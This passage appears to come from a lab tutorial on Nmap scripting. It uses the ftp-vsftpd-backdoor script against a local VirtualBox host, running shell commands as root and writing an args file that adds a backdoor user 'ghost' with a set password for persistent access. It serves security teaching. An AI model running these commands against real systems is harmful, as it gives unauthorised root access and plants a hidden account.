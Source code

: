 Finally, NSE scripts can take multiple arguments from standard input. In our previous `ftp-vsftpd-backdoor` scan, the `id` shell command was executed as the `cmd` argument. Corresponding output suggests the exploit in question provides root-level access. We will explore this in a moment. First, let's try something a little more cliche. 

This command sentence has been spread across two lines for readability.  
```bash
nmap --script ftp-vsftpd-backdoor \ 
--script-args cmd="echo Hello World" -p21 192.168.56.4
```
```python
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-02 09:58 EST
Nmap scan report for 192.168.56.4
Host is up (0.00046s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-vsftpd-backdoor: 
|   VULNERABLE:
|   vsFTPd version 2.3.4 backdoor
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2011-2523  OSVDB:73573
|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
|     Disclosure date: 2011-07-03
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root)
|       Shell command: echo Hello World
|       Results: Hello World
|     References:
|       https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
|       http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523
|_      http://osvdb.org/73573
MAC Address: 08:00:27:30:63:69 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.33 seconds
```

NSE scripts can also take arguments from a file, which helps with crafting more elaborate probing, analysis, and exploitation. In this scan, we are going to use a file to define `useradd` as our `cmd` argument and attempt to establish persistent access on our target.  
```bash
echo 'cmd="useradd -g root -s /bin/bash ghost && echo ghost:boo | chpasswd"' \
> /hauntingYou.txt
```
Ensure to use the absolute file-path to your args file for your scan (especially if it saved somewhere wonky).
```bash
nmap --script ftp-vsftpd-backdoor \
--script-args-file=/hauntingYou.txt -p21 192.168.56.4
```
```python
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-02 10:00 EST
Nmap scan report for 192.168.56.4
Host is up (0.00053s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-vsftpd-backdoor: 
|   VULNERABLE:
|   vsFTPd version 2.3.4 backdoor
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2011-2523  OSVDB:73573
|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
```